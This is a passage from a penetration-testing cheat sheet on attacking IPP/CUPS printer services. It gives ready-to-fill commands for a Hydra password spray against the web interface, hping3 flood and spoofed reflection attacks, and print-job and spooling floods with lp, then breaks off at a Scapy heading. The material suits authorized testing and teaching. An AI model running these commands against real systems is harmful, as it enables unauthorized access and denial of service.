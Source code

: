 #### Password Spray IPP Web Interface

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra -l <username_list> -P <password> <target_ip> http-post-form "/printers:username=^USER^&password=^PASS^:F=failed" -V
    ```
* **Description:** Brute-force the IPP management interface (e.g., CUPS) to gain unauthorized access.

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

#### IPP Flooding via Jobs

*   **Tool:** \[\[Custom Scripts]], \[\[LP]]

    ```bash
    while true; do lp -d <printer_name> <file_to_print>; done
    ```
* **Description:** Overloads the printer or print server with an excessive number of print jobs, leading to a denial of service.

#### Spooling Overflow Attack

*   **Tool:** \[\[LP]]

    ```bash
    lp -d <printer_name> -n 100000 <large_file>
    ```
* **Description:** Submit a large number of print jobs or extremely large files to overwhelm the printer’s spooling capacity, leading to a service disruption.

#### Malformed IPP Request

*   **Tool:** \[\[Scapy]]
